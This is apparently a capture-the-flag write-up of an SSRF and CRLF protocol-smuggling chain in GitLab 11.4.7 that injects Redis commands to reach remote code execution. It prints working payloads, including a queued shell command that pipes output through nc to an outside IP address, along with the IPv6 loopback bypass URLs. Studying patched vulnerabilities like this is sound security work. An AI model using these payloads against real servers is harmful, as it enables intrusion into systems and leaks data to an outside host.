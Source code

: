 ## Little on Protocol Smuggling
So basically if we can inject CR-LF anywhere in request headers we get protocol smuggling

>  Whats protocol smuggling?

Basically making a call in 1 protocol that is understood by another protocol. In this example we made a HTTP call which is understood by redis.

So if there is newline thing(CRLF) anywhere  in header part, redis ignore all error and execute the redis command

```
GET /[EXPLOIT-1] HTTP/1.1     <= can be at URL
Host: 127.0.0.1:6379
Cookie: [EXPLOIT-2]           <= newline at cookie and we get CRLF

data:[EXPLOIT-3] 			  <= or some data we control
```

So if we make a HTTP call to redis, obviously it donot understand HTTP protocol but the fun part is it doesnt give error and if it finds valid redis command it will even execute it.

so [EXPLOIT-n] can be like

```
A\r\n\n
multi
lpush task "Asdf"
exec

A\n\n
```

ACTUAL request
```
GET /A\r\n\n\multi\nlpush\n task "asdf"\nexec\nA\n\n HTTP/1.1
Host: 127.0.0.1:6379
```

will end up inserting the value "Asdf" in variable "task" in redis


## ==============

Now Lets exploit gitlab/gitlab-ce:11.4.7-ce.0 ssrf+crlf from RWCTF (from code audit to rce) 1-day

## SETUP

we were given a [Docker-Componse file](./docker-componse.yml) file  , so set it up

$ docker-compose up -d 
run the command being in docker-compose file direcroty

Visit `http:/0:5080` and you will have gitlab running

## APPROCH

So we need a RCE/File Read so that we can get flag.

There was a previous [RCE](https://gitlab.com/gitlab-org/gitlab-ce/issues/41293) reported to gitlab.

The RCE was done chaining:
* SSRF in webhooks so we can touch intranet(local services) on that network
* CRLF in webhooks causing protocol smuggling allowing us to make calls to redis with a payload causing RCE

## Webhook Functionality 

Webhook is Hook which is called whenever there is certain event.
Example : On PUSH CODE => CALL WEBHOOK TO DO A CICD UPDATE OR JUST MAIL SOMEONE THAT CODE IS PUSHED from USER-X


Now this Webhook is vulnerable to ssrf with crlf => so we can make a request to redis with following payload to push a task in to redis queue which ruby keep checking and perform action as mentioned in queue

PAYLOAD = 
```
A

 multi

 sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec
```

So something like

my.gitlab.com/?webhook[url]=127.0.0.1&webhook[token]=PAYLOAD

this will push our task into system_hook_push which is a task queue gitlab keeps checking the queue for active task

it will take our task which will call `GitlabShellWorker` with arguments `class_eval` and `"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}`

> WHY GitlabShellWorker
THIS IS Code to GitlabShellWorker
```
class GitlabShellWorker
	include ApplicationWorker
	include Gitlab:ShellAdapter

		def perform(action,*arg)
			gitlab_shell.__send__(action,*arg)
		end
	end
```

> `perform` is special method in ruby that checks active tasks in queue and execute them

So this way we end up inserting task to REDIS  and execute it


THIS WAS PREV to PREV version exploit, it was fixed in `gitlab/gitlab-ce:11.4.7-ce.0` .

But know we have to see what bugs where patched in `gitlab/gitlab-ce:11.4.7-ce.0` and if it had SSRF nd CRLF we get RCE and we are done 
So [these](https://about.gitlab.com/2018/11/28/security-release-gitlab-11-dot-5-dot-1-released/) are all patches that were made in this(gitlab/gitlab-ce:11.4.7-ce.0) version and they did fixed 

* SSRF in Webhooks(again? Maybe prev fix bypass)
	* so looking into previous commit we look for something like "ssrf fix" and we do get a commit sayiing [security-11-5-fix-webhook-ssrf-ipv6' into](https://github.com/gitlabhq/gitlabhq/commit/a9f5b22394954be8941566da1cf349bb6a179974#diff-9e66ca5e5564156b96d5a64c76a74c1f)	
	* So it indeed was a IPV6 bypass

* CRLF Injection in Project Mirroring
	* So there is CRLF too but in project mirroing , again looking through prev comit we get the actual fix ['security-fj-crlf-injection' into 'master'](https://github.com/gitlabhq/gitlabhq/commit/c0e5d9afee57745a79c072b0f57fdcbe164312da)

SSRF and CRLF at different parts of the code wont help bcz we need API to be vulnerable to both .

So when we see the code fixed for SSRF, its actually `lib/gitlab/url_blocker.rb` 
so it was a global helper file that was used everywhere(even in project mirroring) to block SSRF

So in short Project mirroring uses same protection defined in `lib/gitlab/url_blocker.rb`  as used by webhooks so SSRF persist also in PRoject mirroring.
Great now we have everything to get RCE
SSRF+CRLF in project mirroring

## EXPLOITING

So lets see how project mirroring works( from https://docs.gitlab.com/ee/workflow/repository_mirroring.html):

```
For an existing project, you can set up push mirroring as follows:

> Navigate to your project’s Settings > Repository and expand the Mirroring repositories section.
> Enter a repository URL.    <== so this is SSRF + CRLF(INJECTION POINT)
Select Push from the Mirror direction dropdown.
Select an authentication method from the Authentication method dropdown, if necessary.
Check the Only mirror protected branches box, if necessary.
Click the Mirror repository button to save the configuration.
```
Basiclly at `(/<namespace>/<projectname>/settings/repository#js-push-remote-settings)`


Finding out what works is as simple as looking at the tests written to check for the bug after the fix was deployed.
```
  it 'returns true for loopback IPs' do
      expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:127.0.0.1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:7f00:1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.2]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:127.0.0.2]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:7f00:2]/foo/foo.git')).to be true
  end
```

Use CRLFs to inject redis commands(Protocol smuggling from HTTP to redis).
Which is as simple as adding \n or \r to our URL(as we can see in test).
```
  shared_context 'invalid urls' do
        let(:urls_with_CRLF) do
          ["http://127.0.0.1:333/pa\rth",
           "http://127.0.0.1:333/pa\nth",
           "http://127.0a.0.1:333/pa\r\nth",
           "http://127.0.0.1:333/path?param=foo\r\nbar",
           "http://127.0.0.1:333/path?param=foo\rbar",
           "http://127.0.0.1:333/path?param=foo\nbar",
           "http://127.0.0.1:333/pa%0dth",
           "http://127.0.0.1:333/pa%0ath",
           "http://127.0a.0.1:333/pa%0d%0th",
           "http://127.0.0.1:333/pa%0D%0Ath",
           "http://127.0.0.1:333/path?param=foo%0Abar",
           "http://127.0.0.1:333/path?param=foo%0Dbar",
           "http://127.0.0.1:333/path?param=foo%0D%0Abar"]
        end
      end
```

So @ injection point payload would be
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/\n\n

multi

sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami > /tmp/a \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"4552c3b1225428b18682c901\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec

exec

```
Putting that in mirror functionality results in a 500 returned from gitlab. This happens due to gitlab trying to render our URL and in failing to do so, refusing to respond with anything meaningful


